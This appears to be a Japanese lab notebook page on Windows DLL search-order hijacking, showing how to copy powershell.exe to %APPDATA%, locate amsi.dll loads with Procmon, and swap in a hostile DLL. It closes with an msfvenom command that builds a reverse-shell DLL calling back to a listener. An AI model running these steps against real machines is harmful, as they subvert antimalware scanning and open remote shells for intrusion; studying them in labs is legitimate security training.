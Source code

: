 ### DLL search Order hijack

* DLLを探す順番

  •実行されたアプリケーションのディレクトリ
  •システムディレクトリ（C:¥Windows¥System32
  •16bit システムディレクトリ（ C:¥Windows¥System
  •Windowsディレクトリ
  •カレントディレクトリ
  •PATH環境変数で定義されたディレクトリ
  •コマンドプロンプトで、`echo %PATH%`

同名のDLLを前のディレクトリにおいて、ハイジャックする。

□ ％APPDATA％

![image-20220830145956912](img/DLLsearchOrderHijack/image-20220830145956912.png)

* powershell.exeをコピーする

  ```
  copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe %APPDATA%\powershell.exe
  ```

  ![image-20220830150112677](img/DLLsearchOrderHijack/image-20220830150112677.png)

* プロセスモニターを起動する

  ```
  C:\Users\Administrator.EC2AMAZ-QSCU18V\AppData\Roaming>C:\Users\Administrator.EC2AMAZ-QSCU18V\Desktop\Tools\SysinternalsSuite\Procmon.exe
  ```

  ※procmonで「not found」となっている.dllを探す

* powershell.exeのプロセスを探し、amsi.dllの実行状況を見る

  ```
  %APPDATA%\powershell.exe
  ```

  フィルターアイコンを押下

  Process Name is powershell.exe

  Path contains amsi.dll

  を「Add」してApplyを押下すると検索条件が絞られる

  ![image-20220830151028802](img/DLLsearchOrderHijack/image-20220830151028802.png)

  ![image-20220830151136440](img/DLLsearchOrderHijack/image-20220830151136440.png)

* amsi.dllをカレントディレクトリに配置する

  ```
   copy C:\Windows\System32\amsi.dll .\Roaming\am
  si.dll
  ```

* powershell.exeを再度実行しプロセスモニタリングする

  ![image-20220830151535489](img/DLLsearchOrderHijack/image-20220830151535489.png)

* amsi.dllの中身をhijack.dllの中身で置き換える

  ```
  copy %USERPROFILE%\Desktop\Penetration\hijack.dll %APPDATA%\amsi.dll
  ```

  ![image-20220830151905843](img/DLLsearchOrderHijack/image-20220830151905843.png)

  ずっとpsのままだとcopyできないので注意

  ![image-20220830151946691](img/DLLsearchOrderHijack/image-20220830151946691.png)

  

□ 時間が余ったらmsfvenomで作成したリバースシェルを用いてamsi.dllを作成する。

* msfvenomでリバースシェルを作成する

  ```bash
  msfvenom -p windows/x64/shell_reverse_tcp -a x64 --platform windows LHOST=192.168.11.156 LPORT=1234 -f dll > amsi.dll
  ```

  ![image-20220830153049867](img/DLLsearchOrderHijack/image-20220830153049867.png)

□後ほど置き換えてリバースシェルを張る